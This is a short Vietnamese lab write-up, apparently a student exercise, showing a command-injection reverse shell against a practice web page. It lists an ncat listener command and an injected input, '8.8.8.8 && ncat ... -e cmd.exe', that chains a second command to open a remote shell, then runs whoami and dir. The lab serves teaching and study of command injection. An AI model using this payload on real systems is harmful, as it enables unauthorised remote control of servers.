

## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 23/5/2022

- Đây là giao diện trang web dùng để reverse shell.
  
  

- Ta sẽ kiểm tra ip của bản thân với <code>ipconfig</code>.
  
  

- Tiếp theo ta tiến hành dùng <code>ncat -nlvp 5555</code> để tiến hành lắng nghe phản hồi trên công 5555.
  
  

- Ta thực hiện submit <code>8.8.8.8 && ncat 192.168.1.11 5555 -e cmd.exe</code> trên web và ta đã reverse shell thành công.
  
  

- Sau khi thực hiện thành công, ta có thể thử kiểm tra <code>whoami</code> hoặc <code>dir</code> trên chính cmd.
  
  